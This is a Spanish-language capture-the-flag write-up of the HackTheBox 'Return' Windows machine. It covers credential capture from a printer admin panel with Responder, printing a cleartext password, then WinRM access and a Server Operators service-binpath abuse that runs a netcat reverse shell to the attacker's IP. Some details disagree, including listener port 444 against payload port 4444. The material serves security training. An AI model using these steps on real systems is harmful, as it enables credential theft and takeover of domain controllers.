



>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)

PD: Al no disponer de acceso a la maquina a la hora de hacer el writeup de la misma, no pude documentar casi ningun comando, por lo que si se ve alguna cosa que no parezca de mi parte, fue tomado de capturas, o comandos de otros writeups.
{: .prompt-info }

Return es una maquina de nivel Easy de la plataforma [HTB](https://app.hackthebox.com/machines/Return) (HackTheBox) la cual se trata de un entorno corporativo basado en Windows Server, el cual nos presenta una web de administracion de impresoras de la compañia, sobre la cual podemos modificar sus configuraciones para recuperar las credenciales de **svc-printer**, la cual tiene permisos excesivos y nos permite acceder a la computadora via WinRM y obtener la primera flag. Una vez comprometido dicho usuario, tenemos que este usuario tiene privilegios excesivos, por lo cual, podemos crear tareas maliciosas para que el administrador o mas bien, el **nt authority/system** las ejecute y posteriormente comprometer el dominio. Es una maquina chula ya que nos enseña el riesgo de los ACL (Access Control List) excesivos, y sobre el porque debemos tener nuestras interfaces webs parcheadas.

## nmap

Entrando de lleno en nuestro nmap, tenemos la siguiente respuesta:

```shell
peter@LetMeHere$ nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.108
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-03 18:28 UTC
Nmap scan report for 10.10.11.108
Host is up (0.090s latency).
Not shown: 65509 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49694/tcp open  unknown
58656/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.23 seconds
peter@LetMeHere$ nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV -oA scans/nmap-tcpscripts 10.10.11.108
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-03 18:29 UTC
Nmap scan report for 10.10.11.108
Host is up (0.091s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-03 18:48:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/3%Time=62717493%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m35s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-05-03T18:50:32
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 280.29 seconds
```

Tenemos dos puertos de sumo interes, los cuales son el 80 y el 22. Entrando en el puerto 80, tenemos lo siguiente:



Tenemos lo que parece ser acceso directo al panel de administracion de impresoras de la compañia, de por si es critico ya que tal como se vio en la EvilCups, el que un usuario cualquiera pueda entrar y administrar dispositivos de impresiones puede llevar a un compromiso total del dominio. Revisando los directorios y archivos disponibles en el servidor tenemos esto:

```shell
peter@LetMeHere$ feroxbuster -u http://10.10.11.108 -x php -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.108
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt         
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]       
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        2l       10w      150c http://10.10.11.108/images => http://10.10.11.108/images/
200      GET     1345l     2796w    28274c http://10.10.11.108/
200      GET     1345l     2796w    28274c http://10.10.11.108/index.php
200      GET     1376l     2855w    29090c http://10.10.11.108/settings.php
[####################] - 1m    159504/159504  0s      found:4       errors:0      
[####################] - 1m     53168/53168   515/s   http://10.10.11.108 
[####################] - 1m     53168/53168   516/s   http://10.10.11.108/images 
[####################] - 1m     53168/53168   515/s   http://10.10.11.108/ 
```

No vemos nada interesante por aqui. Sin embargo, revisando el endpoint de `settings.php` vemos algo interesante:



Al parecer ya esta configurado lo que serian unas credenciales con la IP y el nombre del dominio. Intentando leer las credenciales revisando el source code de la web no podemos ver las mismas como vemos aqui (lo cual seria bueno ya que no se deberian de mostrar por nada del mundo credenciales en texto plano):



Aunque en la maquina se muestre de una manera mas CTF ya que se ve rellenado, en la vida real no seria un mal procedimiento de seguridad (Claro, tampoco poniendo los campos de esa manera).

## Shell as svc-printer

Analizando lo que hace la aplicacion, cuando le damos al boton de "Update", este manda una solicitud POST (logico si es web), pero lo manda con el siguiente parametro:

```
ip=printer.return.local
```

por lo cual, que pasa si lo modificamos y le pasamos nuestra ip? Levantando la herramienta "responder" tenemos lo siguiente:

```shell
❯ sudo responder -I eth3
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth3]
    Responder IP               [10.10.14.16]
    Responder IPv6             [fe80::23a4:f18f:2f90:cb6a]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-FEXMM35P2UX]
    Responder Domain Name      [MN4M.LOCAL]
    Responder DCE-RPC Port     [46541]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[LDAP] Cleartext Client : 10.129.55.113 
[LDAP] Cleartext Username : return\svc-printer 
[LDAP] Cleartext Password : 1edFg43012!! 

[+] Exiting...
```

Perfecto, tenemos las credenciales de svc-printer en texto claro! Probando la autenticacion via smb tenemos este resultado:

```shell
peter@LetMeHere$ netexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share 
```

Y si probamos con winrm:

```shell
peter@LetMeHere$ crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
WINRM       10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Tenemos shell!

Entrando vemos la flag y procedemos a leerla (esta ubicada en `Desktop`):

```shell
peter@LetMeHere$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ..\desktop\
*Evil-WinRM* PS C:\Users\svc-printer\desktop> type user.txt
c0118264************************
```

## Shell as System

Enumerando nuestros privilegios actuales, tenemos esto:

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

En este momento disponemos de privilegios bastante interesantes, enumerando los grupos que tenemos vemos esto:

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Esto se ve mas interesante, ya que estamos literalmente en un grupo bastante privilegiado, el grupo del que hablo es `Server Operators`, ya que un usuario de este grupo puede desde registrar tareas, hasta tener ACL bastante privilegiados para un usuario comun (Teniendo en cuenta que esta es una cuenta de servicio, lo cual lo hace mas interesante y peligroso a su vez). Aqui una breve definicion:

>[!info] Un grupo integrado que existe únicamente en los controladores de dominio. De forma predeterminada, el grupo no tiene miembros. Los Operadores de servidor pueden iniciar sesión de manera interactiva en un servidor; crear y eliminar recursos compartidos de red; iniciar y detener servicios; realizar copias de seguridad y restaurar archivos; formatear el disco duro del equipo; y apagar el equipo.
> **[Derechos de usuario](https://ss64.com/nt/ntrights.html) predeterminados:**
>
>- Permitir inicio de sesión local: **SeInteractiveLogonRight**
  >  
>- Hacer copias de seguridad de archivos y directorios: **SeBackupPrivilege**
>
>- Cambiar la hora del sistema: **SeSystemTimePrivilege**
  >  
>- Cambiar la zona horaria: **SeTimeZonePrivilege**
  >  
>- Forzar el apagado desde un sistema remoto: **SeRemoteShutdownPrivilege**
>    
>- Restaurar archivos y directorios: **SeRestorePrivilege**
 >   
>- Apagar el sistema: **SeShutdownPrivilege**

Asi que, lo que podemos hacer es registrar una tarea maliciosa como veremos a continuacion:

Al este usuario poder modificar, parar y arrancar tareas, subamos un archivo netcat:

```powershell
*Evil-WinRM* PS C:\programdata> upload /opt/netcat/nc64.exe
Info: Uploading /opt/netcat/nc64.exe to C:\programdata\nc64.exe
                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```

Una vez que lo subimos, podemos cambiar la ruta del binario para que ahora arranque nuestro archivo al iniciarse nuevamente:

```powershell
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd 10.10.14.16 4444"
[SC] ChangeServiceConfig SUCCESS
```

Vemos que funciona sin problema, asi que ahora paremos la tarea, y volvamosla a arrancar (estando en escucha en el puerto que pusimos):

```powershell
*Evil-WinRM* PS C:\programdata> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\programdata> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

Ahora de nuestro lado:

```shell
peter@LetMeHere$ nc -lnvp 444
Listening on 0.0.0.0 444
Connection received on 10.10.11.108 54572
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Tenemos shell de administrador!

Sin embargo, al ver el servidor que no arranca bien luego de 30s (porque la estamos ocupando con una shell) esta se cerrara, asi que debemos de ser rapidos al tomar la flag. Y asi pwneamos el servidor :)

```shell
C:\Users\Administrator\Desktop>type root.txt
2e3771d0************************
```

Gracias por leerme :)


